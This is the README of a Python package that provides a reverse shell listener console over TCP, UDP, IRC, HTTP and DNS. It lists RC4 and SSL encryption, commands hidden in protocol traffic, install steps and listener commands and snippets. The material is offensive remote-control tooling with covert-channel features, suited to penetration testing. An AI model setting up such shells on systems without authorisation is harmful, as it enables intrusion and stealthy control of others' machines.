 ![ReverseShell logo](https://mauricelambert.github.io/info/python/code/ReverseShell_small.png "ReverseShell logo")

# ReverseShell

## Description

This package implements an advanced reverse shell console (supports: TCP, UDP, IRC, HTTP and DNS).

 - Support basic reverse shell using netcat or other standard/basic reverse shell
 - Basic terminal features
 - Commands history
 - UDP
 - Multi-sessions TCP (1 session/1 command)
 - Encrypt TCP data with SSL
 - Encrypt commands with RC4
 - Hide commands with IRC protocol
 - Hide commands with DNS (UDP) protocol
 - Hide commands with HTTP protocol
 - Advanced terminal features (required specific packets):
     - Print colored hostname, user and current directory
     - Auto-completion (executables in PATH and files in current directory)
     - Updatable any time you send the specific packet
 - Auto-restart for TCP client
 - Very large TCP packet (greater than TCP Window) is working

You can read multiples POC for reverse shell client written in python in the *clients* directory.

I add public and private key for default SSL certificate, is useful for test but **is not secure, create your own certificate to protect your TCP data**.

## Requirements

This package require :
 - python3
 - python3 Standard Library
 - PythonToolsKit

## Installation

```bash
pip install ReverseShell
```

## Usages

### Command lines

```bash
python3 -m ReverseShell --help
python3 ReverseShell.pyz -h
ReverseShell # To test this command use the shellclientsockettcp.py script. This is a standard/basic reverse shell compatible with netcat.
ReverseShell -u -d # To test this command use the shellclientdns.py script. This is a DNS (UDP) reverse shell.
ReverseShell -H -T # To test this command use the shellclienthttp_advanced.py script. This is an advanced HTTP reverse shell.
ReverseShell -H -T -s # To test this command use the shellclienthttps_advanced.py script. This is an advanced HTTPS reverse shell.
ReverseShell -H -T -s -k "abcd" # To test this command use the "shellclienthttpsencrypt_advanced.py abcd" command. This is an advanced HTTPS encrypted (using RC4 with "abcd" key) reverse shell.
ReverseShell -I # To test this command use the shellclientsocketirc.py script. This is an IRC reverse shell.
ReverseShell -T # To test this command use the shellclienttcp.py script. This is a multi-sessions TCP reverse shell.
ReverseShell -T # To test this command use the shellclienttcp_advanced.py script. This is an advanced multi-sessions TCP reverse shell.
ReverseShell -u # To test this command use the shellclientudp.py script. This is a UDP reverse shell.
```

### Python3

```python
from ReverseShell import ReverseShellSocketTcp, ReverseShell

with ReverseShellSocketTcp(address=("127.0.0.1", 1337), ssl=False, cert=None, key=None, handler=ReverseShell) as shellserver:
    shellserver.serve_forever()

# To test this code you can use the shellclientsockettcp.py script. This is a standard/basic reverse shell compatible with netcat.

from ReverseShell import ReverseShellTcp, HttpReverseShell, partial

with ReverseShellTcp(address=("127.0.0.1", 1337), ssl=True, cert="server.crt", key="server.key", handler=partial(HttpReverseShell, key=b"abcd", encoding="utf-8")) as shellserver:
    shellserver.serve_forever()

# To test this command use the "shellclienthttpsencrypt_advanced.py abcd" command. This is an advanced HTTPS encrypted (using RC4 with "abcd" key) reverse shell.
```

## Links

 - [Github Page](https://github.com/mauricelambert/ReverseShell)
 - [Pypi](https://pypi.org/project/ReverseShell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ReverseShell.html)
 - [Executable](https://mauricelambert.github.io/info/python/security/ReverseShell.pyz)

## Help

```text
usage: ReverseShell.py [-h] [--udp | --tcp | --multi-tcp] [--http | --dns | --irc] [--no-color] [--key KEY] [--cert CERT] [--private PRIVATE] [--ip IP]
                       [--port PORT] [--encoding ENCODING] [--ssl]

Reverse Shell with high level feature

options:
  -h, --help            show this help message and exit
  --udp, -u             Use UDP socket.
  --tcp, -t             Use TCP socket.
  --multi-tcp, -T       Create TCP socket for each command and response.
  --http, -H            Use HTTP requests and responses.
  --dns, -d             Use DNS requests and responses.
  --irc, -I             Use IRC requests and responses.
  --no-color, --color, -C
                        Do not use color
  --key KEY, -k KEY     Add a key to encrypt with RC4.
  --cert CERT, -c CERT  SSL cert file.
  --private PRIVATE, -P PRIVATE
                        SSL private key file.
  --ip IP, -i IP        IP address to start the ReverseShell server.
  --port PORT, -p PORT  UDP/TCP port to start the ReverseShell server.
  --encoding ENCODING, -e ENCODING
                        The reverse shell encoding used by client.
  --ssl, -s             Use SSL over TCP socket.
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
